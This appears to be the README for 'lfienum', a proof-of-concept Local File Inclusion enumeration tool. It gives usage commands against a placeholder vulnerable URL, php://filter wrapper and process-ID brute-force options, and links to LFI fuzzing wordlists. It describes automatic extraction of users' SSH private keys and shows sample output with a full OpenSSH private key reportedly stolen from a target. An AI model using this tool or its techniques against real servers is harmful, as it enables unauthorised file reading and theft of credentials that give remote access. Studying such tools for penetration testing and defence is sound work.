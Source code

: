 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```
lfienum ~by 0bfxgh0st*

Usage python3 lfienum.py <url>

Options:

       --pid          Bruteforce 999 process id
       --wrapper      (php://filter/convert.base64-encode/resource=)

Examples:
           python3 lfienum.py "http://ghost.server/index.php?page="
           python3 lfienum.py "http://ghost.server/index.php?page=" --pid
           python3 lfienum.py "http://ghost.server/index.php?page=" --wrapper index.php
```

Auto id_rsa key extraction from /etc/passwd, check `def ID_RSA():` function  
Output example:  
```
...

[SSH ID_RSA KEY]
ghost key from http://ghost.server/index.php?file=/home/ghost/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDRScoSFO
Tk3d1A0K1kYCQzAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC5SLRm3gjC
mXU6nHisg7VT0UxRTuoyL9IkiV9xPjdx44fTujyqsmjS+VjKyhGiTw+UB3jDZr81jCv4DO
WiwRc+A7PxnBA0qP1UU9OxuVaSgetSHCbjTNU4UlCPDBo2iZV2gw17CzuwGqa3Yz/UWoUV
KxKU+vMwO+evzUkL3w1LoAWKvWG0VfAdRh4rqXKsNDHoTdWBWLvLCx7PkBH8fF6+OIM+Lq
NM1tVQYuSHpAoNbj5bnGwLEt4Z8GqyZELdaNt8lc7XdO8YbAmPN/boyEZd9KRO/FdeuayE
yRQygxpz25goYGuj+Gdg3uQFEScDtYyUKwpsUsNDv1q0KOLWntT+5I8bHwME6ozqBBRba9
5K7kbCxLLwHxvN7E+dMFxH2e1J3uax1d/h5D1JNrJpi0KsFeycPL6Hr2StfNORRhdXEKGd
HudCjvhjRx27rAEwVBj/gcTS5Esu5sd0R5ToXb1ukT/lFhXjsW3qHYHexjbZQ7kSJPxJrg
KhOPkQ0YeBYzJzS9ffFjIZdTUBcLuE518rNKnKezPl7H9TNNnuHRgL/XycbrfUVWQVS+yo
aW6jjhykuO43zeiTNe/tyJUkBlJu5vs4xM1aDMSQW6fn2iVDrRbxY0lzq11fT59RbIQXzv
fL9B4SSMC6ccKVJlyYNLTZVpPyOonFvy6hThflpkhA/mGVgMvDyiwxLx/5+odvRRD7Gg0w
vyRsUY5/8RfNIZelJ731cwccRbbNfUmUbOcSG0yPMrBdGUldSwiqI9XyswM/goLzIKPC/7
UKQmKZ8oy7B5utVOW5aWqZCFe+shV8qPvaS/4bUaykQMdcFclbD22Pinwx6X6DHnGcmRtF
m+1QuC+jT23hAtJbqsafYQ61sUxkAQUExKdBQ+l7l6a0OZhG+L28P7xuQ7wwhhX6PpeKmD
HO1fvy1tu3wuQ9MAHGqMP+W2CJMVt3W4SvMasLIklPWDjy5iaii4WJkijIHopldyyL7wJ7
QRcxfhQ+4r+6virvZEo/2CkWtIhi8IcyPx6bQA54iu9eKkZE1gOdyDJogIrvkv+787rAlL
skyX2Q==
-----END OPENSSH PRIVATE KEY-----
```
Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
